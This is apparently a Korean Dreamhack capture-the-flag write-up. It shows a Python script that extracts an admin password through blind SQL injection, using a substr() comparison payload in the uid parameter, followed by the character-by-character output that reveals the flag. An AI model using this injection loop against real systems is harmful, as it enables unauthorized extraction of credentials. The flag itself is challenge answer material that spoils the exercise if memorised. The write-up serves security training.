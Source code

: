  

![대소문자 틀려도 참.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/58a9ba7c-01ce-4cf6-8d4c-66b8dccbbe6b/%EB%8C%80%EC%86%8C%EB%AC%B8%EC%9E%90_%ED%8B%80%EB%A0%A4%EB%8F%84_%EC%B0%B8.png)

첫글자는 무조건 D임에도 불구하고 d여도 참이 되는 것을 확인하고 코드를 조금 고쳐야 한다고 생각했다.

드림핵의 플래그에서 괄호 안의 값들은 대문자는 안들어가고 소문자로 구성되어 있기 때문에 lower()를 이용하여 소문자로 변경해주었다.

```python
import requests
flag='DH{'
idx=4

while True:
    for i in range(32,128):#아스키코드
        now=chr(i)
        query=f"http://host3.dreamhack.games:14271/?uid='||substr(upw,{idx},1)='{now}'%23"
        response=requests.get(query)
        if 'admin' in response.text:
            flag+=chr(i).lower()
            idx+=1
            print('flag:',flag)
            break
					
    if '}'in flag:
        print(flag)
        break
```

그리고 나시 다시 실행한 결과

```python
flag: DH{d
flag: DH{d3
flag: DH{d3d
flag: DH{d3de
flag: DH{d3def
flag: DH{d3def3
flag: DH{d3def39
flag: DH{d3def394
flag: DH{d3def3949
flag: DH{d3def39496
flag: DH{d3def39496c
flag: DH{d3def39496c4
flag: DH{d3def39496c41
flag: DH{d3def39496c415
flag: DH{d3def39496c4153
flag: DH{d3def39496c41539
flag: DH{d3def39496c415394
flag: DH{d3def39496c4153942
flag: DH{d3def39496c4153942f
flag: DH{d3def39496c4153942f3
flag: DH{d3def39496c4153942f3f
flag: DH{d3def39496c4153942f3f7
flag: DH{d3def39496c4153942f3f7d
flag: DH{d3def39496c4153942f3f7d5
flag: DH{d3def39496c4153942f3f7d54
flag: DH{d3def39496c4153942f3f7d545
flag: DH{d3def39496c4153942f3f7d5451
flag: DH{d3def39496c4153942f3f7d5451a
flag: DH{d3def39496c4153942f3f7d5451a4
flag: DH{d3def39496c4153942f3f7d5451a4b
flag: DH{d3def39496c4153942f3f7d5451a4b9
flag: DH{d3def39496c4153942f3f7d5451a4b98
flag: DH{d3def39496c4153942f3f7d5451a4b98c
flag: DH{d3def39496c4153942f3f7d5451a4b98c6
flag: DH{d3def39496c4153942f3f7d5451a4b98c6d
```